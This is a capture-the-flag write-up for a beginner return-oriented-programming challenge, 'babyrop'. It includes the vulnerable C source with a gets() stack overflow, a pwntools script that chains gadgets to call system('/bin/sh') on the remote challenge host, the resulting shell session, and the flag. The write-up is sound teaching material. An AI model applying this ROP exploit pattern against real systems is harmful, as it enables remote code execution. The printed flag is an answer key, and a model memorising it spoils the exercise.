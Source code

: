 # babyrop [Pwn]

## Prompt
You are ready for more return-oriented programming.

``` bash
nc challs1.nusgreyhats.org 5012
```

![Image of prompt](./screenshots/babyrop-prompt.png)

## Files
[babyrop.tar.gz](./files/babyrop.tar.gz)

## Description

As seen in the [C file](./files/babyrop.c) below, our aim is to allocate `*favourite_shell` variable as the register that is used as input for `system` function. We must then force the code to call onto the `system` function after this reallocation of variables/register values. Afterwhich, we can then run a shell within the server's machine to hopefully find and obtain the flag.

``` c
// babyrop.c

/* gcc -no-pie -fno-stack-protector ./babyrop.c -o babyrop */
#include <stdio.h>

char *favorite_shell = "/bin/sh";

int main() {
    puts("The time now is:");
    system("date");

    printf("My favorite shell is %s\n", favorite_shell);

    char buf[32];
    gets(buf);
    return 0;
}
```

With that, we can craft our payload into our [script](./files/baby-code.py). We used the pwn library for python for this. For the determination of values for `PAYLOAD` we used [Ghidra](https://ghidra-sre.org/) and [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to analyse the assembly instructions and work from ther.

``` python
from pwn import *

HOST = "challs1.nusgreyhats.org"
PORT = 5012
BINARY = "./babyrop"
BABYROP = ELF('./babyrop')

PAYLOAD =  p64(0x0000000000400486) * 8  # RET x 8 (POP)
PAYLOAD += p64(0x0000000000400683)      # PUSH
PAYLOAD += p64(0x004006a4)              # address of "/bin/sh"
PAYLOAD += p64(BABYROP.plt['system'])   # CALL 'system'

r = remote(HOST, PORT)  # server
# r = process(BINARY)   # local

pause()
r.sendline(PAYLOAD)
r.interactive()
```

Running the python script will then give use the flag!

``` bash
$ python3 baby-code.py
[*] 'babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challs1.nusgreyhats.org on port 5012: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
Mon Aug 16 09:29:31 UTC 2021
$ ls
flag.txt
run
$ cat flag.txt
greyhats{4n_e4sy_0ne_f0r_y0u_82hhd2dh8dh}
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
```

## Flag
`greyhats{4n_e4sy_0ne_f0r_y0u_82hhd2dh8dh}`